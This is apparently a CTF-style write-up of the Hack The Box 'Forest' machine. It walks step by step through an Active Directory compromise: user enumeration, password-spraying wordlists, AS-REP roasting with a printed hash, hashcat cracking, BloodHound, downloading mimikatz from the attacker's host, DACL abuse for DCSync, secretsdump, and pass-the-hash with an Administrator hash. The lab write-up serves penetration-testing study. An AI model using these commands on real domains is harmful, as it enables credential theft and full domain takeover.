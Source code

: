 ```yaml
---
layout: post
title: "Forest"
date: 2025-04-20 
categories: CPTS Playlist
---
```

# Attack Path

First enumerate the open ports and services:

```bash
sudo nmap -sC -sV -oA nmap/forest 10.129.118.84

result:
PORT     STATE SERVICE      VERSION
53/tcp   open  domain       Simple DNS Plus
88/tcp   open  kerberos-sec Microsoft Windows Kerberos (server time: 2024-12-08 16:47:45Z)
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: HTB)
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
Service Info: Host: FOREST; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: FOREST
|   NetBIOS computer name: FOREST\x00
|   Domain name: htb.local
|   Forest name: htb.local
|   FQDN: FOREST.htb.local
|_  System time: 2024-12-08T08:47:55-08:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required
| smb2-time: 
|   date: 2024-12-08T16:47:52
|_  start_date: 2024-12-08T16:46:12
|_clock-skew: mean: 2h46m52s, deviation: 4h37m10s, median: 6m50s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required

```

We find the domain name to be htb.local and the FQDN is forest.htb.local

DNS is open, let’s try zone transfer the reverse DNS

```bash
dig @10.129.118.84 -x 10.129.118.84

#also the nslookup method
nslookup
server 10.129.118.84
10.129.118.84
127.0.0.1

#try zone transfer
dig axfr htb.local @10.129.118.84

#no response
```

Let’s try smb server.

```bash
#Null authentication
smbclient -N -L 10.129.118.84  #noresponse

#Let's try CME invalid users
cme smb 10.129.118.85 -u 'fasf' -p ''

#Tried all methods and still got nothing
```

Let’s try to query LDAP

```bash
#We can check the domain name
ldapsearch -H ldap://10.129.118.84 -x -b "DC=htb,DC=local"

#Let's find all the SAM account names so we can do a password spraying attack
ldapsearch -H ldap://10.129.118.84 -x -b "DC=htb,DC=local" -s sub "(&(objectclass=user))"  | grep sAMAccountName: | cut -f2 -d" "

#now save the output to a file removing all the machine account names
result:
sebastien
lucinda
andy
mark
santi
```

We can try rpc  null authentication to get the users list:

```bash
rpcclient -U '' -N 10.129.118.84
enumdomusers

result:
svc-alfresco

#we get an extra user we have not seen before
```

Let’s find out the password policy:

```bash
cme smb 10.129.118.84 -u '' -p '' --pass-pol

result:
SMB         10.129.118.84   445    FOREST           Minimum password length: 7
SMB         10.129.118.84   445    FOREST           Password history length: 24
SMB         10.129.118.84   445    FOREST           Maximum password age: Not Set
SMB         10.129.118.84   445    FOREST           
SMB         10.129.118.84   445    FOREST           Password Complexity Flags: 000000
SMB         10.129.118.84   445    FOREST               Domain Refuse Password Change: 0
SMB         10.129.118.84   445    FOREST               Domain Password Store Cleartext: 0
SMB         10.129.118.84   445    FOREST               Domain Password Lockout Admins: 0
SMB         10.129.118.84   445    FOREST               Domain Password No Clear Change: 0
SMB         10.129.118.84   445    FOREST               Domain Password No Anon Change: 0
SMB         10.129.118.84   445    FOREST               Domain Password Complex: 0
SMB         10.129.118.84   445    FOREST           
SMB         10.129.118.84   445    FOREST           Minimum password age: 1 day 4 minutes 
SMB         10.129.118.84   445    FOREST           Reset Account Lockout Counter: 30 minutes 
SMB         10.129.118.84   445    FOREST           Locked Account Duration: 30 minutes 
SMB         10.129.118.84   445    FOREST           Account Lockout Threshold: None
SMB         10.129.118.84   445    FOREST           Forced Log off Time: Not Set
```

From the password policy, we can see there are no lockout policy in place, so we can create a wordlist to bruteforce weak passwords. First create a wordlist with all the months, seasons and domain name, secret and common passwords like P@ssw0rd. Now add the current year or the year before:

```bash
for i in $(cat common-password.txt); do echo $i; echo ${i}2019; echo ${i}2020; done > p
mv p common-password.txt
for i in $(cat common-password.txt); do echo $i; echo ${i}\!; done > p
mv p common-password.txt
```

Now we can use hashcat rule files to transform the password list:

```bash
hashcat --stdout common-password.txt -r /usr/share/hashcat/rules/best64.rule -r /usr/share/hashcat/rules/toggles1.rule | sort -u | awk 'length($0) > 7' > common-password-rule.txt

```

Now we can begin the password attack in the background:

```bash
cme smb 10.129.118.84 -u users_ldap.txt -p common-password-rule.txt 
```

We can also user GetNPUsers to see if we get a TGT ticket and try to crack that:

```bash
impacket-GetNPUsers htb.local/ -dc-ip 10.129.118.84 -no-pass -usersfile users_ldap.txt

result:
$krb5asrep$23$svc-alfresco@HTB.LOCAL:f9fa9e79d8456bbda9e9521878ac6979$dc772faf5ecd603a158634c9f14808dc432d83d5ea40c48af44a4a354732fa99e9c2e57232b797f7db6848ff91801addd8e105567e3dc268bdc81768689f45ea47bb471ea212b673b75b6b280af8f8f8db0105dc0f989c09ad1b60e5ef4a09823ca9ec684ee48e8fa86241edb722918bb7bdd2533421bf6405e536c1e126b97eb5f4d18f81664c92873da4b8691ccd23f6367c34f37c8c2ec2b5c9e322c0efd7afbedc45048bfe07eeed7290b9b01b8ecd1b94b28865f4c278aaa1a23166b205c1f97a7e81b501ef68cff346fd21de2fce859035f169789fea9c283bd24d5c85bcbcf5f21ef3
```

Let’s try and crack that in hashcat:

```bash
hashcat.exe -m 18200 wordlists\admin_hash.txt wordlists\rockyou.txt --opencl-device-types 2 -w 3
```

We have cracked the password for user svc-alfresco. Now we can check the validity of the password:

```bash
cme smb 10.129.118.84 -u 'svc-alfresco' -p 's3rvice'
cme winrm 10.129.118.84 -u 'svc-alfresco' -p 's3rvice'

result:
both returned OK
```

We now have access to svc-alfresco. Now we have a valid user, we can evil-winrm log onto the user and we can also map privileges of the user with bloodhound.

```bash
mkdir bloodhound_output
bloodhound-python -u svc-alfresco -p 's3rvice' -ns 10.129.118.84 -d htb.local -c all

sudo neo4j start

bloodhound   #neo4j:neo4j
```

To delete old data, query this

```bash
MATCH (n) DETACH DELETE n;
```

Now start bloodhound and find user svc-alfresco and set it as starting node and mark user as owned.

Then we go to analysis and click on shortest path to domain admins from owned principal we get a mapped out route to domain admin. It’s recommending us to use mimikatz then dcsync. Let’s do that. First transfer mimikatz to target:

```bash
python3 -m http.server 8001

target:
iwr http://10.10.14.132:8001/mimikatz.exe -OutFile mimikatz.exe
```

```bash
.\mimikatz.exe
privilege::debug
#sekurlsa::logonpasswords

lsadump::dcsync /domain:testlab.local /user:Administrator
```

mimikatz don’t work on 

![image.png]({{ site.baseurl }}/assets/forest/forest-image.png)

The group Exchange Windows Permissions has WriteDacl over htb.local, which allows dcsync.

Let’s first add ourself to the group:

```bash
On attack host:
net rpc group addmem "Exchange Windows Permissions" "svc-alfresco" -U "htb.local"/"svc-alfresco"%"s3rvice" -S "FOREST.htb.local"

OR on evil-winrm:
net group "Exchange Windows Permissions" svc-alfresco /add /domain

#verify our group memebership:
net group "Exchange Windows Permissions" /domain

#Then quickly (as the service automatically deletes group membership) on attack host:

impacket-dacledit htb.local/svc-alfresco:s3rvice -action write -rights DCSync -principal svc-alfresco -target-dn 'DC=htb,DC=local' -dc-ip 10.129.118.84

#we should get a:
[*] DACL backed up to dacledit-20241208-200009.bak
[*] DACL modified successfully!

```

Now we can use secretsdump from attack host:

```bash
impacket-secretsdump -outputfile htb_hashes -just-dc htb.local/svc-alfresco@10.129.118.84 
```

We now have the hashes including Administrator’s NT hash.

Now, let’s use evil-winrm to log on.

```bash
evil-winrm -i 10.129.118.84 -u Administrator -H 32693b11e6aa90eb43d32c72a07ceea6
```

- Enumerate SMB, DNS
- ldapsearch to find users
- enum4linux
- rpcclient, enumdomusers find users
- GetNPUsers to get KRTGT hash
- hashcat -m 18200
- bloodhound to map quickest route to domain admin
- change group membership
- dacledit to grant dcsync rights
- DCSync
- secretsdump to get NT hashes